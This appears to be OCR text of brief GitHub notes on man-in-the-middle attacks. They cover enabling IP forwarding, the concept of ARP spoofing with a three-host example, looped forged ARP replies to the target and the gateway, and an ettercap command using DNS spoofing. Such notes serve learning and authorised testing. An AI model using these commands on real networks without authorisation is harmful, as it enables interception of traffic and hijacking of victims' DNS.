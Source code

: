 * sysctl -w net.ipv4.ip_forward=1

# another Method 

* echo 1 > /proc/sys/net/ipv4/ip_forward

# you can disable it useing 0 instead of 1 

------------------------------------------------

# ARP SPoofing 


# Concept with Example :

we have 2 machines :

* A) 192.168.1.1 00:00:5e:00:53:af
* B) 192.168.1.2 12:3c:22:01:53:d3
* C) 192.168.1.3 01:23:ac:03:00:4e

* Attacker is C , Gateway is A , Target is B

** first we start a loop of arp replay every second or every specific period to send spoof packet for gateway and target
to tell gateway we are the target and tell the target we are the router.**

loop: 

# packet to send to target:

* arpreplay psrc=gatewayip pdst=targetip hwsrc=ourmac hwdst=targetmac 

# packet to send to gateway:

* arpreplay psrc=targetip pdst=gatewayip hwsrc=ourmac hwdst=gatewaymac 



-------------------------------------------------
# ArpSpoofing


# 1)- Useing Ettercap 

* ettercap -i <interface> -M <Method:subMethod> -TQ "/Target1;Target2;Target3//" "/Target4// -P dns_spoof "
